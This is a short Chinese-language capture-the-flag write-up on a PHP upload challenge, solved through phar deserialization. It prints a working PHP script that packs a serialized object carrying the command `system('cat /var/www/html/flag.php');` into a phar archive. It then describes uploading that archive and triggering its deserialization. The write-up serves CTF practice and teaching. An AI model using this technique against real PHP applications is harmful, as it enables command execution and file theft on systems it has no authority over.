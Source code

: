 可以看到只有`home upload`会在后缀加**php**

![image-20230102121039118](four.assets/image-20230102121039118.png)

稍微审计一下**upload.php**就能发现就是一个很简单的**phar反序列化**

```php
<?php
    class Uploader{
        public $Filename;
        public $cmd="system('cat /var/www/html/flag.php');";
        public $token='GXYb2a85e312be5d2bc78a26f1aff95f472';
    }
    @unlink("exp.phar");
    $xl = new Uploader();

    $phar = new Phar("exp.phar");
    $phar->startBuffering();
    $phar->setStub('<?php __HALT_COMPILER(); ? >');
    $phar->setMetadata($xl);
    $phar->addFromString("exp.txt", "test");
    $phar->stopBuffering();
?>
```

token是由于在最后有个校验

`$this->Filename = $sandbox.$_SESSION['user'].$ext;`

在这一步实际上已经给出了，然后就是先将phar文件上传上去，再传name反序列化

![image-20230102124118933](four.assets/image-20230102124118933.png)
